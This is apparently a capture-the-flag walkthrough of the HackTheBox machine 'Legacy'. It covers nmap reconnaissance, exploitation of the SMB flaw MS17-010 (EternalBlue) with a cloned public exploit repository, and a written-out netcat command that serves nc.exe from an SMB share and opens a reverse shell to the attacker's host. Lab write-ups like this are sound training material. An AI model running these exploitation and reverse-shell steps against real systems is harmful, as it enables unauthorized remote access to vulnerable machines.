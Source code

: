 ```yaml
---
title: Legacy - HackTheBox Walkthrough
date: 2021-10-20 12:00:00 
categories: [HackTheBox,Windows]
tags: [smb,ms17-010]
img_path: /assets/img/HTB/Legacy/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Legacy` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Tue Oct 19 19:13:45 2021 as: nmap -sC -sV -v -oN nmap-scan -Pn 10.129.239.226
Nmap scan report for 10.129.239.226
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
| nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c3:a2 (VMware)
| Names:
|_
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-10-25T05:11:43+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 19 19:14:55 2021 -- 1 IP address (1 host up) scanned in 69.95 seconds
```
## Smb Enumeration
It seems the vector attack will be through smb, I used `nmap` to test if ther any vulnerability in this service.

![01-smb.png](01-smb.png)

And it show us it is vulnerable to `CVE-2008-4250` and `CVE-2017-0143` this time I chose use CVE-2017-0143.

# Exploitation
This vulnerability is called `Eternal Blue` which is an exploit that allows attacker to remotely execute arbitrary code and gain access to a network by sending specially crafted packets.

To exploit it, just need clone this [repository](https://github.com/3ndG4me/AutoBlue-MS17-010).
```console
$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
```
And run `zzz_exploit.py` like the screenshot below.

![02-eternalblue.png](02-eternalblue.png)

`whoami` doesn't work but we have this executable on our machine.

![03-whoami.png](03-whoami.png)

Share this directory using `smbserver.py`.

![04-smbserver.png](04-smbserver.png)

Once we created a share folder just execute whoami.exe

![05-whoami.png](05-whoami.png)

Also we can use `nc.exe` to send a reverse shell to our netcat listener port.
```console
$ \\10.10.14.75\Folder\nc.exe -e cmd 10.10.14.75 443
```
![06-nc.png](06-nc.png)

Just change the directory to `C:\Documents and Settings` where are located the home directories of Administrator and John.

![07-root.png](07-root.png)

We got root.txt
That’s it for now guys. Until next time.

# Resources
- https://www.cisecurity.org/wp-content/uploads/2019/01/Security-Primer-EternalBlue.pdf
- https://github.com/3ndG4me/AutoBlue-MS17-010

